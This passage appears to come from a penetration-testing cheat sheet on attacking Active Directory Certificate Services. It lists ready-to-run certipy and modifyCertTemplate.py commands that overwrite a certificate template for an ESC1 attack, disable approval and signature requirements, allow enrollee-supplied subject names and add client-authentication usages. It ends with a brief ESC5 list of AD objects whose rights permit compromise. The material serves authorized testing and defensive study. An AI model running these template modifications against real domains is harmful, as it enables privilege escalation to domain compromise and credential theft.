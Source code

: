 ```powershell
```

#### Linux

* Quick override and restore

```bash
# Overwrite the certificate template and save the old configuration
certipy template -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -template templateName -save-old

# After the ESC1 attack, restore the original configuration
certipy template -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -template templateName -configuration 'templateName.json'
```

* Precise modification

```bash
# Query a certificate template (all attributes)
python3 modifyCertTemplate.py -template templateName contoso.local/user:pass

# Query the raw values of all template attributes
python3 modifyCertTemplate.py -template templateName -raw contoso.local/user:pass

# Query the ACL for a certificate template
python3 modifyCertTemplate.py -template templateName -get-acl contoso.local/user:pass


# Disabling Manager Approval Requirement
python3 modifyCertTemplate.py -template templateName -value 2 -property mspki-enrollment-flag contoso.local/user:pass 

# Disabling Authorized Signature Requirement
python3 modifyCertTemplate.py -template templateName -value 0 -property mspki-ra-signature contoso.local/user:pass 

# Enabling SAN Specification
python3 modifyCertTemplate.py -template templateName -add enrollee_supplies_subject -property msPKI-Certificate-Name-Flag contoso.local/user:pass 

# Editting Certificate Application Policy Extension
python3 modifyCertTemplate.py -template templateName -value "'1.3.6.1.5.5.7.3.2', '1.3.6.1.5.2.3.4'" -property mspki-certificate-application-policy contoso.local/user:pass 
```

### ESC5 : Sufficient rights against several objects

* CA server’s AD computer object (i.e., compromise through RBCD)
* The CA server’s RPC/DCOM server
* Any descendant AD object or container in the container `CN=Public Key Services,CN=Services,CN=Configuration,DC=<COMPANY>,DC=<COM>` (e.g., the Certificate Templates container, Certification Authorities container, the NTAuthCertificates object, the Enrollment Services container, etc.)
